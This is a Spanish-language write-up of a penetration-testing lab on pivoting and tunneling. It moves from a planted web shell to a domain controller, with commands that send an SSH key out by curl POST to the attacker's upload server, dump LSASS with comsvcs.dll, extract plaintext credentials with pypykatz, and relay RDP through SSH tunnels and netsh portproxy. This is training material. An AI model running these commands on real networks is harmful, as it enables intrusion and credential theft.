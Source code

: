 # Pivoting, tunneling and port forwarding - lab

## Enunciado - IP: 10.129.229.129 

A team member started a Penetration Test against the Inlanefreight environment but was moved to another project at the last minute. Luckily for us, they left a web shell in place for us to get back into the network so we can pick up where they left off. We need to leverage the web shell to continue enumerating the hosts, identifying common services, and using those services/protocols to pivot into the internal networks of Inlanefreight. Our detailed objectives are below:

Objectives
- Start from external (Pwnbox or your own VM) and access the first system via the web shell left in place.
- Use the web shell access to enumerate and pivot to an internal host.
- Continue enumeration and pivoting until you reach the Inlanefreight Domain Controller and capture the associated flag.
- Use any data, credentials, scripts, or other information within the environment to enable your pivoting attempts.
- Grab any/all flags that can be found.k


## Preguntas

**Once on the webserver, enumerate the host for credentials that can be used to start a pivot or tunnel to another host in the network. In what user's directory can you find the credentials? Submit the name of the user as the answer.**


- Nos dan una webshell a la que podemos acceder desde el navegador. 

- Con `netcat` nos creamos una shell interactiva

- Encontramos un archivo `id_rsa` en `/home/webadmin`. Nos llevamos su contenido, escribiendo `python -m uploadserver` en nuestra pwnbox 

    ```bash
    curl -X POST http://10.10.14.137:8000/upload -F 'files=@/home/webadmin/id_rsa' 
    ```

- Una vez conectados, si escribimos `whoami` vemos que somos `webadmin`, por lo que podemos responder a la primera Preguntas

**Submit the credentials found in the user's home directory. (Format: user:password)**

- En la carpeta de `/home/webadmin` hay un  archivo llamado `for-admin-eyes-only`, que nos da credenciales: 

    ```plaintext
    mlefay:Plain Human work!
    ```

**Enumerate the internal network and discover another active host. Submit the IP address of that host as the answer.**

- Comprobamos con `ip a` que tenemos una interfaz de red con dirección `172.16.5.15/16`

- Probamos a hacer un ping sweep

    ```bash
    for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
    ```

    Encontrando la dirección IP 172.16.5.35 abierta. Cambiamos nuestra variable de entorno `$target` a este valor. Quedan así las variables: 
    - `$target`: 172.16.5.35
    - `$pivot`: 10.129.229.129 (otra interfaz en 172.16.5.15)

**Use the information you gathered to pivot to the discovered host. Submit the contents of C:\Flag.txt as the answer.**

- Creamos un túnel socks con la clave id_rsa obtenida

    ```bash
    ssh -NfD 9050 webadmin@$pivot -i id_rsa   
    ```

- Escaneamos el host

    ```bash
    proxychains nmap -v -Pn -sT --max-rate 1000 --min-parallelism 10 -p 1-1000 $target
    ```

    encontrando los siguientes puertos abiertos:

    ```textplain
    PORT    STATE SERVICE
    22/tcp  open  ssh
    135/tcp open  msrpc
    139/tcp open  netbios-ssn
    445/tcp open  microsoft-ds
    ``` 
### Servicio smb

- Tratamos de enumerar los recursos compartidos

    ```bash
    proxychains nxc smb $target -u 'mlefay' -p 'Plain Human work!' --shares
    ```

    pero esto no arroja información, más allá de que estas credenciales son válidas para `sbm`. Probamos con `smbmap`

    ```bash
    proxychains smbmap -H $target -u 'mlefay' -p 'Plain Human work!'
    ```

    encontrando los siguientes recursos comaprtidos: 

    ```textplain
        Disk    Permissions Comment
        ----    ----------- -------
        ADMIN$  NO ACCESS   Remote Admin
        C$      NO ACCESS   Default share1
        IPC$    READ ONLY   Remote IPC
        Users   READ ONLY
    ```
    No encontramos demasiada información

### RDP - 172.16.5.35

- Con las credenciales obtenidas, `mlefay:Plain Human work!`, tenemos acceso al sistema
    
    ```bash
    ssh -NfL 33389:$target:3389 webadmin@$pivot -i compartido/id_rsa
    ```

    ```bash
    xfreerdp /v:localhost /u:mlefay /p:'Plain Human work!' /drive:Shared,/home/an0nio/htb/academy/pivoting/lab/compartido /port:33389
    ```

por lo que podemos responder a la siguiente pregunta 

**Use the information you gathered to pivot to the discovered host. Submit the contents of C:\Flag.txt as the answer.**

**In previous pentests against Inlanefreight, we have seen that they have a bad habit of utilizing accounts with services in a way that exposes the users credentials and the network as a whole. What user is vulnerable?**

- Dentro de la sesión RDP podemos dumpear `lsass`

    ```powershell
    Get-Process lsass 
    # Encontramos que el proceso es el 680
    rundll32 C:\windows\system32\comsvcs.dll, MiniDump 680 C:\lsass.dmp full
    ```


- Dado que hemos creado una sesión con una carpeta compartida, movemos el archivo dumpeado a la carpeta compartida y utilizamos `pypypkatz` para obtener información:

    ```bash
    pypykatz lsa minidump lsass.dmp > pypykatz.txt
    ```

    Encontramos usuarios escribiendo 

    ```bash
    cat pypykatz.txt| grep user
    ```

    Hay un usuario fuera de lo común, `vprank`, (es la respuesta a la pregunta anterior)

    ```bash
    cat pypykatz.txt| grep vfrank -C 3 | grep -i pass
    ```

    encontrando que tiene credenciales en texto plano: `vfrank:Imply wet Unmasked!`

- Comprobamos que esta máquina tiene dos interfaces de red: `172.16.5.35/24` y `172.16.6.35/24`. Hacemos ping sweep sobre la segunda interfaz: 

    ```cmd
    for /L %i in (1,1,254) do @ping -n 1 -w 100 172.16.6.%i | find "Reply" >nul && echo 172.16.6.%i
    ```

    Encontrando abierta la máquina `172.16.6.25`. Hacemos un escaneo de puertos escribiendo lo siguiente: 

    ```powershell
    $target = "172.16.6.25"
    $ports = Get-Content "ports.txt"
    $ports | % { if ((Test-NetConnection -ComputerName $target -Port $_).TcpTestSucceeded) { $_ } }
    ```
    
    Encontramos abiertos los siguientes puertos: 

    ```textplain
    Port 3389 is open
    Port 445 is open
    Port 139 is open
    Port 135 is open
    ```

### RDP - 172.16.6.25

- Dado que `$target` está comprometido, convertimos a `$target` en `$pivot2`, quedando
    - `$target`: 172.16.6.25
    - `$pivot`: 10.129.229.129 (otra interfaz en 172.16.5.15)
    - `$pivot2`: 172.16.5.35 (otra interfaz en 172.16.6.35)

- Debemos crear un túnel para poder conectarnos por RDP a `$target`. En nuestra pwnbox escribimos

    ```bash
    ssh -NfL 13389:$pivot2:13389 webadmin@$pivot -i compartido/id_rsa
    ```

- Y en la máquina `$pivot2` redirigimos el tráfico del siguiente modo:

    ```powershell
    netsh interface portproxy add v4tov4 listenport=13389 listenaddress=0.0.0.0 connectport=3389 connectaddress=172.16.6.35
    ```

- Desde nuestra pwnbox podemos conectarnos ahora a $target

    ```bash
    xfreerdp /v:localhost /u:vfrank /p:'Imply wet Unmasked!' /drive:Shared,/home/an0nio/htb/academy/pivoting/lab/compartido /port:13389
    ```

Esto ya nos permite responder a las últimas dos preguntas: 

**For your next hop enumerate the networks and then utilize a common remote access solution to pivot. Submit the C:\Flag.txt located on the workstation.** 

Se accede sin ningún problema por RDP

**Submit the contents of C:\Flag.txt located on the Domain Controller.**

Si vamos a mi equipo, hay una carpeta compartida por el DC, en donde está la flag